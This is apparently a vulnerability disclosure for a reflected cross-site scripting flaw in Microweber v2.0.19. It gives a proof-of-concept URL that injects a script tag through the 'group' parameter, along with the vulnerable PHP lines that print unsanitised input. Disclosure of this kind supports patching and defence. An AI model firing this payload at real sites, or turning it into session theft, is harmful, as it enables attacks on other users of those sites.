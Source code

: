 # Exploit Title: Microweber v2.0.19 - Cross-Site Scripting (XSS)
## Date: 1/3/2025
## Vendor Homepage: https://github.com/microweber/microweber
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Microweber
## Version: v2.0.19
## Exploit Description:
## Microweber v2.0.19 suffers from Reflected Cross-Site Scripting (XSS) Vulnerability in the 'group' parameter of the 'userfiles/modules/settings/group/website_group/index.php' script. This vulnerability allows attackers to cheat other users by injecting malicious scripts into web pages viewed by other users.

## ---------------------------------POC-----------------------------
```
http://localhost/admin/settings?group=1%22%3E%3C/module%3E%3Cscript%3Ealert(%27xss%27)%3C/script%3E%3Cmodule%3E%22(InJECT HERE)
```

code snippet:
userfiles/modules/settings/group/website_group/index.php
```
...
    $group = $_GET['group']; // line 13
...
        $show_inner = $group; // line 39
...
        <module type="<?php print $show_inner ?>"/> // line 48   
... 
```


